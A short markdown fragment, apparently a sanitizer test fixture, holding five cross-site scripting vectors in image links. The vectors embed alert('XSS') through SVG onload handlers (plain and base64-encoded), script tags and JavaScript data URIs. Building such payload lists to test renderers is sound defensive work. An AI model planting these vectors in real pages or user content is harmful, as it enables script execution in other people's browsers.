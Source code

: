 ![](data:image/svg+xml,<svg onload=alert('XSS')>)
![](data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoJ1hTUycpPg==)
![](data:,<script>alert('XSS')</script>)
![](data:text/javascript,alert('XSS'))
![](data:application/x-javascript,alert('XSS'))